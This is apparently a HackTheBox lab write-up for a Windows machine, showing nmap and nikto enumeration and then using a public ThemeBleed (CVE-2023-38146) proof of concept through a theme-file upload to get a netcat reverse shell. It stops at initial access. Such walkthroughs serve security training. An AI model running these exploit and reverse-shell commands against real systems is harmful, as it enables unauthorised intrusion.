








# HackTheBox - Areo



## Overview

- Difficulty: Medium
- Platform: Windows
- Skills Demonstrated: Web Exploitation, Enumeration, Service and Application Fingerprinting, Windows Privilege Escalation

## Methodology 

The assessment followed a standard attack methodology:

1. Enumeration
2. Vulnerability Identification
3. Initial Access
4. Privilege Escalation
5. Post Exploitation
---

## Enumeration

An initial port scan was performed using Nmap to discover any open ports and services.
```
nmap 10.129.229.128 -sCV -A -p-
```
```
Starting Nmap 7.80 ( https://nmap.org ) at 2023-09-26 22:58 EDT
Nmap scan report for 10.129.229.128
Host is up (0.091s latency).

PORT   STATE SERVICE VERSION
80/tcp open  http    Microsoft IIS httpd 10.0
|_http-server-header: Microsoft-IIS/10.0
|_http-title: Aero Theme Hub
Service Info: OS: Windows; CPE: cpe:/o:microsoft:windows

Service detection performed. Please report any incorrect results at https://nmap.org/submit/ .
Nmap done: 1 IP address (1 host up) scanned in 9.34 seconds
```
Key Findings:
- Port 80 - HTTP
- Only one open port was discovered

Following discovering of an HTTP service, a Nikto scan is run to identify misconfigurations and exposed endpoints 
```
nikto -h 10.129.229.128
```
```
- Nikto v2.5.0
---------------------------------------------------------------------------
+ Target IP:          10.129.229.128
+ Target Hostname:    10.129.229.128
+ Target Port:        80
+ Start Time:         2026-05-08 17:44:27 (GMT1)
---------------------------------------------------------------------------
+ Server: Microsoft-IIS/10.0
+ /: Retrieved x-powered-by header: ARR/3.0.
+ /: The X-Content-Type-Options header is not set. This could allow the user agent to render the content of the site in a different fashion to the MIME type. See: https://www.netsparker.com/web-vulnerability-scanner/vulnerabilities/missing-content-type-header/
+ No CGI Directories found (use '-C all' to force check all possible dirs)
+ /: Web Server returns a valid response with junk HTTP methods which may cause false positives.
+ /: DEBUG HTTP verb may show server debugging information. See: https://docs.microsoft.com/en-us/visualstudio/debugger/how-to-enable-debugging-for-aspnet-applications?view=vs-2017
+ /home/: This might be interesting.
+ 8103 requests: 0 error(s) and 5 item(s) reported on remote host
+ End Time:           2026-05-08 17:46:46 (GMT1) (139 seconds)
---------------------------------------------------------------------------
+ 1 host(s) tested
```
The results from our scan reveal the `/home` endpoint

After navigating to the web server on port 80, we discover upload functionality 




Inspecting the page source indetified file upload extension restrictions, the application only permits file extensions `.theme` and `.themepack`.



Test files were uploaded to validate the file extension restrictions and observe application behaviour for bypass techniques

test.txt



test.theme




### Themebleed Exploit

Further enumeration of the `.themepack` file extension identified CVE-2023-38146, commonly known as ThemeBleed. A well known vulnerability affecting Windows theme package handling, exploitation of this vulnerability can lead to remote code execution.

A public proof of concept (PoC) for CVE-2023-38146 (ThemeBleed) was idenitfied and leveraged to exploit the web application

<https://github.com/Jnnshschl/CVE-2023-38146/blob/main/README.md>

This exploit generates malicious `.theme` and `.themepack`files which, when opened trigger SMB requests. These requests are intercepted by the attacker's SMB server resulting in a specially crafted DLL being loaded instead of the legitimate one. Execution of the payload leads to remote code execution

## Initial Access

The exploit was executed with the following command:
```
sudo /home/kali/htb/CVE-2023-38146/pwnenv/bin/python themebleed.py -r 10.10.14.178 -p 4711
```
This generated our malicious `.theme` and `.themepack` files, which were then used to trigger the vulnerability  



Before uploading of the files, a netcat listener was started to catch the incoming reverse shell 
```
rlwrap -cAr nc -lvnp 4711
```

Once the files were successfully uploaded, we received our shell on our listener resulting in our initial foothold




